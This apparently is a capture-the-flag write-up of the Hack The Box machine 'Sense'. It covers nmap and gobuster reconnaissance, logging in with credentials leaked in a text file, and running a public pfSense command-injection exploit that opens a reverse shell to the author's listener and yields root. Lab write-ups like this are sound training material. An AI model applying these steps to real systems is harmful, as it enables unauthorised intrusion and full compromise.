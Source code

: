 # HTB - Sense
## OS - FreeBSD

As usual I started with an nmap scan of the box (IP address of Sense is 10.10.10.60).

```
$nmap -sC -sV -sT -oN Sense.nmap 10.10.10.60
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-18 13:30 PST
Nmap scan report for 10.10.10.60
Host is up (0.097s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.99 seconds
```

Visiting http://10.10.10.60 gets redirected automatically to https://10.10.10.60 that shows a login page. The default credentials for pfsense are admin/pfsense but that did not work.

Doing some directory bruteforcing using gobuster.

```
$gobuster dir -k -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .txt,.php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2021/01/18 13:45:09 Starting gobuster
===============================================================
/index.php (Status: 200)
/help.php (Status: 200)
/themes (Status: 301)
/stats.php (Status: 200)
/css (Status: 301)
/edit.php (Status: 200)
/includes (Status: 301)
/license.php (Status: 200)
/system.php (Status: 200)
/status.php (Status: 200)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/exec.php (Status: 200)
/widgets (Status: 301)
/graph.php (Status: 200)
/tree (Status: 301)
/wizard.php (Status: 200)
/shortcuts (Status: 301)
/pkg.php (Status: 200)
/installer (Status: 301)
/wizards (Status: 301)
/xmlrpc.php (Status: 200)
/reboot.php (Status: 200)
/interfaces.php (Status: 200)
[ERROR] 2021/01/18 13:51:33 [!] Get https://10.10.10.60/cdsa: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
===============================================================
2021/01/18 14:09:29 Finished

```
**It found several interesting files.**

For example, https://10.10.10.60/changelog.txt shows 
```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

So chances are there is a public exploit that is not patched. Will explore that later.

https://10.10.10.60/tree/ shows a silverstripe tree control v 0.1 being running. Internet search showed that it is a CMS tool with some exploits available.

/system-users.txt shows the following:

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

Logging in as rohit/pfsense worked.

The mainpage after logging in shows that pfsense version 2.1.3 is running. Searching for exploits gives us https://www.exploit-db.com/exploits/43560 (pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection) as the top result.   Trying that first, as command injection is what we want.

Downloaded the exploit and ran it, while running a nc listener on port 4321.

```
$python3 43560.py -h
usage: 43560.py [-h] [--rhost RHOST] [--lhost LHOST] [--lport LPORT]
                [--username USERNAME] [--password PASSWORD]

optional arguments:
  -h, --help           show this help message and exit
  --rhost RHOST        Remote Host
  --lhost LHOST        Local Host listener
  --lport LPORT        Local Port listener
  --username USERNAME  pfsense Username
  --password PASSWORD  pfsense Password

$python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.16 --lport 4321 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed

```

On my nc listener,


```
$nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.60] 11637
sh: can't access tty; job control turned off
# ls
GW_WAN-quality.rrd
WAN_DHCP-quality.rrd
ipsec-packets.rrd
ipsec-traffic.rrd
system-mbuf.rrd
system-memory.rrd
system-processor.rrd
system-states.rrd
updaterrd.sh
wan-packets.rrd
wan-traffic.rrd
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# ls /root          
.cshrc
.first_time
.gitsync_merge.sample
.hushlogin
.login
.part_mount
.profile
.shrc
.tcshrc
root.txt
# cat /root/root.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx86
# cd /home
# ls
.snap
rohit
# cd rohit
# ls
.tcshrc
user.txt
# cat user.txt
```

On the whole, it was a simple machine with a public exploit that worked without any modifications. Was very straightforward. The directory bruteforcing was interesting though. The Silverstripe tree control software can also be used for exploitation, probably, but since the box was named Sense and the software was pfsense, the focus was on pfsense.









